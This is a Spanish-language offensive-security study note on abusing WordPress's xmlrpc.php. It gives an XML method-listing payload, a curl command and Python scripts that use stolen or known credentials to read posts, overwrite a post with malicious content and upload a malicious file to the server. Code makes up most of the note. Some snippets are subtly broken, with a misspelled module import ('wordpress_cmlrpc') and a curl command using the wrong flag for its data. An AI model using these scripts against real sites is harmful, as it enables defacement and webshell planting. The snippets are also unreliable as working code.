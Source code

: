 ------
- Tags: #teoria #practica #basico 
- ------

# XMLRPC.php 

### El **xmlrpc.php** en Wordpress es un archivo cxon extensión .php que permite realizar tareas remotas por el método conocido como POST en programación, como por ejemplo, publicar o editar artículos o entradas. 

-----

# Abuso de xmlrcp.php

### Cuando nos referimos a abusar del **xmlrpc.php** hacemos alución al uso que podríamos llegar a obtener gracias a este archivo. 

## Listar métodos disponibles 

### Si envíamos como data en una solicitud por POST el siguiente payload (Obtenido de la web oficial de [wordpress](https://codex.wordpress.org/XML-RPC/system.listMethods))

```xml
<methodCall>
  <methodName>system.listMethods</methodName>
  <params></params>
</methodCall>
```

### Con herramientas como curl, podríamos ver en la respuesta del servidor un listado de los metodos que podemos usar para abusar de estos como la enumeración de usuarios, la edición de posts, etc. 

```bash
curl -s -X POST {url} -s '<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>'
```

## Obtener los POSTS de la página

### Para poder obtener los posts de la página y a la par verificar que las credenciales que tenemos que tener sean válidas, podríamos intentar obtener los posts de la web. Para esto podemos hacer uso del modulo **python-wordpress-xmlrpc** para con python hacer uso de un script y obtener los valores que necesitemos.

```bash
pip3 install python-wordpress-xmlrpc
```

###  De esta manera podríamos hacer uso de este modulo para crear un script en python y obtener valores

```python
from wordpress_xmlrpc import Client 
from wordpress_xmlrpc.methods import posts
client = Client('{url_xmlrpc.php}', '{username}', '{password}')
post = client.call(posts.GetPosts())
```

### De esta manera en la variable *post* ahora tendríamos todos los posts publicados. 

```bash
post # Listar los posts
dir(post[0]) # Listar los attributos del primer post 

# Listar atributos
post[0].link
post[0].id
```

## Editar POSTS de la página

### Una vez que tengamos los posts en la página, tal vez exista una vía potencial para cambiar un codigo que se ejecuta en php u otras funcionalidades. 

```python
from wordpress_xmlrpc import Client 
from wordpress_cmlrpc.methods import posts
client = Client('{url_xmlrpc.php}', '{username}', '{password}')
post = client.call(posts.GetPosts())
 
malicious_post = post[0] # Podríamos quedarnos con el post que querramos editar
malicious_content = "{new_malicious_content}" 
malicious_post.content = malicious_content

client.call(posts.EditPost(malicious_post.id, malicious_post)) # A esta función se le debe pasar el identificador del post a modificar y el nuevo post modificado
```

### De esta manera tal vez exista un post en la página el cual ejecute una función en php y haciendo uso de esto podríamos intentar cambiar esto para inyectar nuestros comandos maliciosos. 

## Subir archivos maliciosos

### Otra cosa que podríamos intentar hacer es subir archivos maliciosos al sistema, de esta manera podríamos desplegar en una ruta de la web nuestro propio script malicioso.

```python
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods import media 
client = Client('{url_xmlrpc.php}', '{username}', '{password}')

with open("{mcalicious_file_to_upload}", "r") as f:
	filename = f.read()

post_file = {'name':'{filename}','bits':filename,'type':'{content-type}'}

client.call(media.UploadFile(post_file))
```

### De esta manera, si la web esta desplegada bajo la ruta **/var/www/html** en caso de que la subida del archivo sea exitosa, nos arrojara información como el path donde estará alojado este archivo. 

